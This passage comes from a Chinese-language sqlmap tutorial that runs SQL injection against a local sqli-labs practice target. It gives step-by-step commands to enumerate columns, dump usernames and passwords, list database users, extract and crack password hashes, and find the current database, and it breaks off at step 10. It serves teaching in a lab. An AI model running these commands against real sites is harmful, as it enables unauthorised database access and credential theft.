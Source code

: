    该命令的作用是查询完表名后，查询该表中所有的字段名；

   ```
   python2 sqlmap.py -u "http://192.168.163.132:2334/Less-1/?id=1" -D security -T users --columns
   ```

   ![image-20210312141941246](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210312141941246.png)

   

6. **获取字段内容**

   该命令是查询完字段名之后，获取该字段中具体的数据信息；

   需要的字段可以根据自己的需要自行选择

   ```
   python2 sqlmap.py -u "http://192.168.163.132:2334/Less-1/?id=1" -D security -T users -C id,username,password --dump
   ```

   ![image-20210312142423805](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210312142423805.png)

   

7. **获取数据库的所有用户**

   该命令的作用是列出数据库的所有用户；

   在当前用户有权限读取包含所有用户的表的权限时，使用该命令就可以列出所有管理用户

   ```
   python2 sqlmap.py -u "http://192.168.163.132:2334/Less-1/?id=1" --users
   ```

   ![image-20210312142818760](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210312142818760.png)

   

8. **获取数据库用户的密码**

   该命令的作用是列出数据库用户的密码。如果当前用户有读取用户密码的权限，SQLMap会先列举出用户，然后列出Hash,并尝试破解。

   ```
   python2 sqlmap.py -u "http://192.168.163.132:2334/Less-1/?id=1" --passwords
   ```

   如果密码使用MySQL5加密，，我们可以在https://www.cmd5.com/中进行解密

   

9. **获取当前网站数据库的名称**

   使用该命令可以列出当前网站使用的数据库

   ```
   python2 sqlmap.py -u "http://192.168.163.132:2334/Less-1/?id=1" --current-db
   ```

   ![image-20210312143602162](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210312143602162.png)

   

10. **获取当前网站数据库的用户名称**
